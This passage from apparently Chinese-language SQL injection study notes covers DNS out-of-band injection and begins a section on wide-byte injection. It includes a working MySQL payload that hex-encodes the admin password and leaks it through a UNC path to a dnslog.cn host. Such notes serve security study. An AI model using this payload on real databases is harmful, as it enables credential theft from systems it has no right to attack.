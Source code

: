       ![image-20230425175452805](../../../../images/image-20230425175452805.png)



##### 使用条件

- windows系统
- `secure_file_priv`为空

##### payload

```sql
union select 1,2,load_file(CONCAT('\\\\',(SELECT hex(passwd) FROM users WHERE username='admin' LIMIT 1),'.mysql.2fzz61.dnslog.cn\\abc'))

-- Hex编码的目的是减少干扰，域名有一定的规范，有些特殊字符不能带入
-- \\\\转义  →  \\
```



### SMB外带注入

http://www.moonslow.com/article/smb_sql_injection



### 宽字节注入

##### 原理

宽字节：如果一个字符的大小是两个字节的，该字符称为宽字节字符

`PHP`与`Mysql`之间的交互

![img](../../../../images/5917903e25c36c63ec29ad5237c2f7a4.png)
